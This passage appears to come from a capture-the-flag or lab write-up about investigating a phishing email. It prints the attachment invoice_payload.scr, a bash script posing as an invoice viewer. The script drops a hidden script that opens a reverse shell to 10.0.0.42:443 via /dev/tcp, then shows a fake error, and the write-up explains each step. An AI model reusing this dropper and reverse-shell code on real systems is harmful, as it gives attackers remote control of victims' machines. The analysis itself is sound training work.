 ```bash

Failure to respond in 24 hours will result in service suspension.

Attachment: invoice_payload.scr
```
{: .nolineno }

![image](https://gist.github.com/user-attachments/assets/605ad1d5-75c0-4b56-ba72-521fe72bef4c)


```bash
o.deer@west-tech-workstation:~/Mail$ find / -type f -name "invoice_payload.scr" 2>/dev/null
/home/o.deer/Downloads/invoice_payload.scr
o.deer@west-tech-workstation:~/Mail$ file /home/o.deer/Downloads/invoice_payload.scr
/home/o.deer/Downloads/invoice_payload.scr: ASCII text
o.deer@west-tech-workstation:~/Mail$ wc /home/o.deer/Downloads/invoice_payload.scr
 24  77 620 /home/o.deer/Downloads/invoice_payload.scr
o.deer@west-tech-workstation:~/Mail$ cat /home/o.deer/Downloads/invoice_payload.scr
cat << 'EOF' | sudo tee /home/o.deer/Downloads/invoice_payload.scr > /dev/null
#!/bin/bash
# Q3 Procurement Invoice Viewer - [Secured PDF - Do Not Share]

echo "Loading encrypted document... please wait."
sleep 2

TMP_DIR="/tmp/.westproc"
mkdir -p "$TMP_DIR"

# Drop payload (simulated reverse shell trigger)
cat << 'PAYLOAD' > "$TMP_DIR/.syncd.sh"
#!/bin/bash
bash -i >& /dev/tcp/10.0.0.42/443 0>&1
PAYLOAD

chmod +x "$TMP_DIR/.syncd.sh"
nohup "$TMP_DIR/.syncd.sh" &>/dev/null &

echo "Error: Failed to load document (corrupted file)."
EOF

# Make it executable
sudo chmod +x /home/o.deer/Downloads/invoice_payload.scr
```
{: .nolineno }

The file **invoice_payload.scr** is a bash script disguised as a "**Q3 Procurement Invoice Viewer**" that creates a hidden directory (`/tmp/.westproc`) and drops a secondary script (`.syncd.sh`) to establish a reverse shell to `10.0.0.42:443`, allowing an attacker to remotely control the system. 


![image](https://gist.github.com/user-attachments/assets/e9595411-d6d6-4655-953c-16ea17e82811)


